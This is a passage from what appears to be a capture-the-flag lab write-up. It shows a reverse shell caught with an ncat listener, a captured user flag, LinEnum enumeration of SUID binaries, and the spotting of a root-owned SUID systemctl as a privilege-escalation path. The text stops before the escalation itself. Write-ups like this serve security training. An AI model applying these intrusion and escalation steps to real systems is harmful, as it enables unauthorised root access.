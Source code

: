 I get a shell as pepper:

```

root@kali# nc -nlvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.143.
Ncat: Connection from 10.10.10.143:37144.
id
uid=1000(pepper) gid=1000(pepper) groups=1000(pepper)

```

Now I can grab `user.txt`:

```

pepper@jasmin:~$ cat user.txt 
2afa36c4...

```

## Priv: pepper –> root

### Enumeration

I uploaded `LinEnum.sh` and ran it (with `-t`). The SUID section was interesting:

```

[-] SUID files:
-rwsr-xr-x 1 root root 44304 Mar  7  2018 /bin/mount                
-rwsr-xr-x 1 root root 61240 Nov 10  2016 /bin/ping                      
-rwsr-x--- 1 root pepper 174520 Feb 17 03:22 /bin/systemctl       
-rwsr-xr-x 1 root root 31720 Mar  7  2018 /bin/umount                                             
-rwsr-xr-x 1 root root 40536 May 17  2017 /bin/su                            
-rwsr-xr-x 1 root root 40312 May 17  2017 /usr/bin/newgrp                  
-rwsr-xr-x 1 root root 59680 May 17  2017 /usr/bin/passwd                  
-rwsr-xr-x 1 root root 75792 May 17  2017 /usr/bin/gpasswd                                                            
-rwsr-xr-x 1 root root 40504 May 17  2017 /usr/bin/chsh                                                   
-rwsr-xr-x 1 root root 140944 Jun  5  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 50040 May 17  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 440728 Mar  1 11:19 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 42992 Mar  2  2018 /usr/lib/dbus-1.0/dbus-daemon-launch-helper

```

I’m specifically interested in `/bin/systemctl`. This binary is a systemd utility which is responsible for Controlling the systemd system and service manager. That is, it creates and manages services. And in this case, only root and users in the group pepper (me) can run it, and it will run as root.
